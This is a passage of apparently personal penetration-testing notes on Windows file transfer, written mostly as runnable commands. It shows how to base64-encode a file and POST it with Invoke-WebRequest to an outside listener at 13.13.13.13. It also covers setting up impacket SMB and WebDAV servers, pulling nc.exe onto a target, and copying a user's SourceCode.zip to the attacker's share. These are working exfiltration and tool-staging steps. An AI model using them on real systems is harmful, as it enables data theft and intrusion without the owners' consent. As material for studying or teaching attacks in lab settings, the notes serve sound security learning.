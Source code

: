2. **PowerShell Base64 Web Upload**. Convert file to base64 and send it using Invoke-WebRequest with POST method. 
```powershell
PS C:\carnifex17> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\carnifex17> Invoke-WebRequest -Uri http://13.13.13.13:8000/ -Method POST -Body $b64
```
```bash
nc -lvnp 8000
```
```bash
echo <base64> | base64 -d -w 0 > hosts
```

### SMB Downloads
1. **Create the SMB Server**
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
2. **Copy a File from the SMB Server**
```powershell
C:\carnifex17> copy \\192.168.220.133\share\nc.exe
```
- But in some scenarios there would be an error, which forbids us unauthentificated guest access, so we could creat a smb server with **authentification**
1. **Create the SMB Server with a Username and Password**
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
2. **Mount the SMB Server with Username and Password**
```powershell
C:\carnifex17> net use n: \\192.168.220.133\share /user:test test
```

### SMB Uploads
****
SMB Uploads will be more tricky because companies usually block uploads to SMB, cause it could cause a huge problem. BUUUT we could use HTTP or HTTPS protocol in return. It's because when you use SMB, it will first attempt to connect using SMB protocol, and if there's no SMB share available, it'll try to connect using HTTP. But for this we need WebDav protocol, it enables a webserver to behave like a fileserver, which we need. First you need to install it
```bash
sudo pip install wsgidav cheroot
```
1. **Using the WebDav Python module**
```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
2. **Connecting to the Webdav Share**. DavWWWRoot isn't a folder, it's a special keyword that tells WebDAV that we are connection to the root of WebDav server. You could use any existing directory when you are connecting, as example `sharefolder`
```powershell
C:\carnifex17> dir \\13.13.13.13\DavWWWRoot
```
3. **Uploading Files using SMB**
```powershell
C:\carnifex17> copy C:\Users\john\Desktop\SourceCode.zip \\13.13.13.13\DavWWWRoot\
C:\carnifex17> copy C:\Users\john\Desktop\SourceCode.zip \\13.13.13.13\sharefolder\
```
